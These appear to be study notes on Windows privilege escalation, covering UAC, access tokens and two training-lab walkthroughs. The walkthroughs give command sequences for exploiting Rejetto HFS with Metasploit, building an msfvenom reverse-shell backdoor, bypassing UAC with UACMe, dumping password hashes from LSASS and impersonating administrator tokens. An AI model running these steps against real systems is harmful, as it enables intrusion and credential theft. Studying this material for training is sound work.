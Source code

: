 # Windows Privilege Escalation
Kernel is a computer program that is the core of an operating systems and has complete control over every resource and hardware on a system it acts as a translation layer between hardware and software and facilitates the communication between these two layers

- User Mode : Programs and services running in user mode have limited access to system resources and functionality
- Kernel Mode :Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory

# Bypassing UAC with UACMe
User account control (UAC) is a windows security feature introduced in windows vista that is used to prevent unauthorized changes from being made to the operating system 

it ensures that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group 

attacks can bypass UAC in order to execute malicious executable with elevated privileges 

 u will need to have access to a user account that is a  part of a local administrators group in the windows target system (tools and techniques will depend on the version of windows running on the target)
(UACMe is an open source robuse privlieges escalation tool developed by @hfire0x it can be used to bypass windows uac by leveraging various techniques )

# UAC Bypass: UACMe Lab
	check the target ip
	- cat /root/Desktop/target
	run nmap scan against  the target ip
	- nmap ip
	nmap version scan on the target ip
	
	- nmap -sV -p80 ip
	search exploit by using searchsploit module
	
	- searchsploit hfs
	run rejetto http file server is vulnerable to RCE with meterpreter session
	- msfconsole 
	- use exploit/windows/http/rejetto_hfs_exec
	- set RHOSTS ip
	- exploit
	
	check the current user > admin user
	- getuid
	- sysinfo

	migrate the process in explorere.exe with PID number
	- ps -S explorer.exe
	- migrate (PID number)
	
	elevate to the high privilege (u could see u don`t have permission to elevate privileges)
	- getsystem
	get windows shell
	- shell
	- net localgroup administrators

	generate malicious executable using msfvenom and running it on the target machine to gain administrator use privlieges
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > 'backdoor.exe'
	- the tool located in /root/Desktop/tools/UACME
	- CTRL + C
	cd C:\\Users\\admin\\AppData\\Local\\Temp
	upload /root/Desktop/tools/UACME/Akagi64.exe .
	upload /root/backdoor.exe .
	ls

	- msfconsole -q
	use exploit/multi/handler
	set PAYLOAD windows/meterpreter/reverse_tcp
	set LHOST 10.10.1.3
	set LPORT 4444
	exploit
	- shell
	- ps -S lsass.exe
	- migrate (PID number)
	- hashdump

#  Access Token Impersonation
windows access tokens are core elements of the authentication process on windows and are created and managed by the local security authority subsystem service (LSASS)

- windows access token is responsible for identifying and describing the security context of a process of thread running on a system simply put an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed

- impersonate level-tokens : are created as a direct result of non interactive login on windows typically through specific system services or domain logons

- delegate level tokens are typically created through an interactive login on windows primarily  through a traditional login or through remote access protocols such as RDP 
- impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token
- delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system

Windows Privileges
the process of impersonating access tokens to elevate privileges on a system will primarily depends on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available

- SeAssignPrimaryToken : this allow user to impersonate tokens
- SecreateToken : this allow a user to create an arbitrary token with administrative privileges
- SelmpersonatePrivilege : this allow a user to create a process under the security context of another user typically with administrative privileges

incognito module is a buit-in meterpreter module that was originally a standalone application that allow you to impersonate user tokens after successful exploitation


# Privilege Escalation: Impersonate Lab
	nmap ip
	nmap -sV -p80 ip
	searchsploit hfs
	msfconsole -q
	use exploit/windows/http/rejetto_hfs_exec
	set RHOSTS ip
	exploit
	getuid
	cat C:\\Users\\Administrator\\Desktop\\flag.txt
	load incognito
	list_tokens -u
	impersonate_token ATTACKDEFENSE\\Administrator 
	getuid
	cat C:\\Users\\Administrator\\Desktop\\flag.txt
	